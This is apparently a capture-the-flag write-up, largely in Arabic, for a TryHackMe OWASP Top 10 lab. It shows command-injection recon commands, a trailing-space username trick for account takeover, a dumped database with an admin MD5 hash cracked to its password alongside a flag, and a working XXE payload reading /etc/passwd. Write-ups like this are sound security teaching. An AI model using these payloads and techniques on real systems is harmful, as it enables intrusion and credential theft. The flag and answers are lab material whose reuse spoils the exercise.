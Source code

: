 # OWASP Top 10

<details>
  <summary>[Severity 1] Command Injection Practical</summary>

> What strange text file is in the website root directory?

```
$ ls
```

```
css
drpepper.txt
evilshell.php
index.php
js 
```

> How many non-root/non-service/non-daemon users are there?  how to know that in linux

```
getent passwd | awk -F: '$3 >= 1000 && $7 != "/usr/sbin/nologin" && $7 != "/bin/false" && $1 != "nobody" {print $1}' | wc -l
```

```
0
```

> What user is this app running as?

```
$ whoami
```

```
www-data 
```

> What is the user's shell set as?

```
getent passwd www-data | cut -d: -f7
```

> What version of Ubuntu is running?

```
$ cat /etc/os-release
```

```
18.04.4 
```

> Print out the MOTD.  What favorite beverage is shown?

```
$ cat drpepper.txt
```

```
I love Dr Pepper 
```

</details>


<details>
   <summary>[Severity 2] Broken Authentication Practical</summary>


> What is the flag that you found in darren's account?

- if you try to rigister using ``darren``
  - user already exist
- now register using ``darren   `` and login you will found the flag

> do same to ``auther``





  
</details>



<details>
  <summary>[Severity 3] Sensitive Data Exposure (Challenge)</summary>

![image](https://github.com/user-attachments/assets/3998c50c-5e62-4c36-9e2d-d57e48981a08)


![image](https://github.com/user-attachments/assets/c32a4e6e-078b-4396-a759-683fd515eff1)


![image](https://github.com/user-attachments/assets/8f486f43-09ad-414f-b40a-2c12b57fd2de)

```
��������tablesessionssessionsCREATE TABLE sessions(
sessionID TEXT NOT NULL UNIQUE,
userID TEXT NOT NULL,
expiry INT NOT NULL,
PRIMARY KEY (sessionID))/Cindexsqlite_autoindex_sessions_1sessions�*�'�-tableusersusersCREATE TABLE users(
userID TEXT NOT NULL UNIQUE,
username TEXT NOT NULL UNIQUE,
password TEXT NOT NULL,
admin INT NOT NULL,
�h��GKHMMEY(user23023b67a32488588db1e28579ced7ecBobad0234829205b9033196ba818f7a872bJM4e8423b514eef575394ff78caed3254dAlice268b38ca7b84f44fa0a6cdc86e6301e0JMM   4413096d9c933359b898b6202288a650admin6eea9b7ef19179a06954edd0f6c05ceb
����mH%%$M23023b67a32488588db1e28579ced7ec$M4e8423b514eef575394ff78caed3254d#M  4413096d9c933359b898b6202288a650
�J����  Bob     Alice   admin
�$                              
```
> admin password hash is

```
6eea9b7ef19179a06954edd0f6c05ceb
```

> crack it on crackstation

```
qwertyuiop
```

```
THM{Yzc2YjdkMjE5N2VjMzNhOTE3NjdiMjdl}
```


</details>



<details>
    <summary>[Severity 4 XML External Entity - eXtensible Markup Language</summary>

## 📏 القواعد المهمة في كتابة XML (Syntax Rules)

| القاعدة                                          | الشرح                                                |
| ------------------------------------------------ | ---------------------------------------------------- |
| 🔸 كل XML لازم يكون عنده عنصر جذر (Root Element) | مثل `<data>...</data>`                               |
| 🔸 XML حساس لحالة الأحرف                         | `<To>` ≠ `<to>`                                      |
| 🔸 لازم تغلق كل العناصر                          | `<tag></tag>` أو باستخدام self-closing مثل `<tag />` |
| 🔸 القيم النصية يجب أن تُحاط بعلامات اقتباس      | `<tag attr="value">`                                 |
| 🔸 لا يوجد عناصر غير مغلقة مثل HTML              | (ما في `<br>` بس في `<br/>`)                         |




## 📋 مثال شامل:

```
<?xml version="1.0" encoding="UTF-8"?>
<bookstore>
  <book category="programming">
    <title lang="en">Learn XXE</title>
    <author>Cyber Falcon</author>
    <year>2025</year>
    <price>0.00</price>
  </book>
</bookstore>
```

---

📎 DTD (Document Type Definition)
هنا يبدأ الموضوع يكون خطير، لأننا راح نستخدم DTD في استغلال XXE لاحقًا.

إيش هو DTD؟
هو تعريف هيكل وهيئة المستند XML، ويقدر يحتوي على:

تعريف العناصر

السماح بالكيانات الخارجية (External Entities)

مثال DTD داخلي:


```
<!DOCTYPE mail [
  <!ELEMENT mail (to, from, subject, text)>
  <!ELEMENT to (#PCDATA)>
  <!ELEMENT from (#PCDATA)>
  <!ELEMENT subject (#PCDATA)>
  <!ELEMENT text (#PCDATA)>
]>
```


☠️ لكن هنا الخطورة:
DTD يسمح بتعريف كيان خارجي External Entity زي كذا:



```
<!DOCTYPE data [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
```

----

![image](https://github.com/user-attachments/assets/ef843c7a-364d-49dd-b57b-241504ee501b)


--- ---
---
---

🧱 مثال توضيحي:
ملف DTD داخلي:

```
<!DOCTYPE note [
  <!ELEMENT note (to,from,heading,body)>
  <!ELEMENT to (#PCDATA)>
  <!ELEMENT from (#PCDATA)>
  <!ELEMENT heading (#PCDATA)>
  <!ELEMENT body (#PCDATA)>
]>
```

XML يستند عليه:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note SYSTEM "note.dtd">
<note>
    <to>falcon</to>
    <from>feast</from>
    <heading>hacking</heading>
    <body>XXE attack</body>
</note>
```

🧠 شرح مفصل لكل سطر في DTD:

| السطر                                    | المعنى                                                                               |
| ---------------------------------------- | ------------------------------------------------------------------------------------ |
| `<!DOCTYPE note [...]>`                  | يعرّف أن الجذر (Root Element) اسمه `note`                                            |
| `<!ELEMENT note (to,from,heading,body)>` | عنصر `note` لازم يحتوي بالترتيب على العناصر الأربعة: `to`, `from`, `heading`, `body` |
| `<!ELEMENT to (#PCDATA)>`                | العنصر `to` يحتوي بيانات نصية قابلة للقراءة (Character Data)                         |
| `#PCDATA`                                | اختصار لـ: **Parsed Character Data** → يعني نص يتم تفسيره                            |
| باقي العناصر (`from`, `heading`, `body`) | كلهم زي `to`، يحتوي بيانات نصية فقط                                                  |



🔎 أنواع البيانات في DTD:

| النوع      | الشرح                        |                                    |
| ---------- | ---------------------------- | ---------------------------------- |
| `#PCDATA`  | بيانات نصية قابلة للتحليل    |                                    |
| `EMPTY`    | العنصر لا يحتوي على أي محتوى |                                    |
| `ANY`      | العنصر ممكن يحتوي على أي شيء |                                    |
| \`(#PCDATA | element)\*\`                 | محتوى مختلط، ممكن يكون نص أو عناصر |



📦 أنواع DTD:


| النوع            | الوصف                                                |
| ---------------- | ---------------------------------------------------- |
| **Internal DTD** | يُكتب داخل ملف XML نفسه                              |
| **External DTD** | يُخزّن في ملف خارجي (`note.dtd`) ويتم ربطه بـ SYSTEM |



مثال ربط DTD خارجي:


```
<!DOCTYPE note SYSTEM "note.dtd">
```

🎯 ليش نستخدم DTD؟

- نتأكد أن ملف XML صحيح وصالح

- يسهل التعامل بين الأنظمة المختلفة

- أساس مهم في التحقق من الصيغة قبل استخدام XML في البرمجة أو المعالجة






## 🚨 ملاحظة أمان:
> لأن DTD يسمح بكيانات خارجية (<!ENTITY ... SYSTEM ...>)، نقدر نستغلها في هجمات XXE، وهذا بالضبط الي راح ندخله بعد ما نخلص الأساسيات.





![image](https://github.com/user-attachments/assets/c103f572-64be-44ed-8cde-fd16dffc6237)

---
---
---



🧪 أولًا: Payload بسيط (تعريف كيان داخلي)
💻 الكود:

```
<!DOCTYPE replace [
  <!ENTITY name "feast">
]>
<userInfo>
  <firstName>falcon</firstName>
  <lastName>&name;</lastName>
</userInfo>
```

🔍 الشرح:
<!ENTITY name "feast"> ← بنعرّف كيان اسمه name وقيمته "feast".

&name; ← بنستخدم الكيان داخل العنصر <lastName>.

📌 النتيجة بعد تفسير XML:

```
<userInfo>
  <firstName>falcon</firstName>
  <lastName>feast</lastName>
</userInfo>
```

✅ ده مثال تعليمي على إزاي XML ممكن يستخدم كيانات (Entities)، لكن ما فيهوش اختراق.



---


💣 ثانيًا: Payload حقيقي لاستغلال XXE لقراءة ملفات
💻 الكود:

```
<?xml version="1.0"?>
<!DOCTYPE root [
  <!ENTITY read SYSTEM "file:///etc/passwd">
]>
<root>&read;</root>
```

🔍 الشرح:
<!ENTITY read SYSTEM "file:///etc/passwd"> ← هنا بنعرّف كيان خارجي (External Entity) بياخد قيمة محتوى ملف من السيرفر.

&read; ← بيتم استدعاء الكيان داخل العنصر <root>.

📌 لو التطبيق فيه ثغرة XXE ومش عامل الحماية اللازمة:

الكود ده هيخلي التطبيق يفتح ملف /etc/passwd من نظام التشغيل ويعرضه لك!

``📂 /etc/passwd``:

هو ملف في نظام لينوكس يحتوي على معلومات المستخدمين، وغالبًا ما يُستخدم لاختبار وجود الثغرة.



⚠️ ملاحظات مهمة:

1- ✅ لازم التطبيق يسمح بقراءة DTD أو ما يكون فيه الحماية (زي منع الكيانات الخارجية).

2- ❌ لو التطبيق عامل hardening (زي في Java أو PHP الحديثة)، ممكن البايلود ما يشتغل.

3- 🔒 بعض الملفات ممكن تكون مقفولة أو require root access، فقراءتها هتفشل.



🎯 خلاصة:


| النوع               | الشرح                               | مثال                                         |
| ------------------- | ----------------------------------- | -------------------------------------------- |
| **Internal Entity** | كيان داخلي بقيمة ثابتة              | `<!ENTITY name "feast">`                     |
| **External Entity** | كيان بيروح يقرأ من ملف أو URL خارجي | `<!ENTITY read SYSTEM "file:///etc/passwd">` |





![image](https://github.com/user-attachments/assets/2a9efdc7-aa39-447e-9033-a32ff99570e3)



![image](https://github.com/user-attachments/assets/ec86f674-36f1-4b6b-83a8-ae0ce0b50105)

![image](https://github.com/user-attachments/assets/5cff94f1-2320-4729-8c58-96f05ba90a33)






   
</details>







<details>
  <summary>[Severity 5] Broken Access Control</summary>


![image](https://github.com/user-attachments/assets/43c12a69-d4e0-474c-96d8-da456d3ee971)





</details>



<details>
  <summary>[Severity 6] Security Misconfiguration</summary>


![image](https://github.com/user-attachments/assets/887466f1-854d-4700-b280-6adcc500f8aa)

![image](https://github.com/user-attachments/assets/7fb4eaac-2932-4fad-8f0d-eb4f871f48f5)


![image](https://github.com/user-attachments/assets/68a62ce1-fd7c-4ae7-bc98-250cb8f8dbe7)


</details>














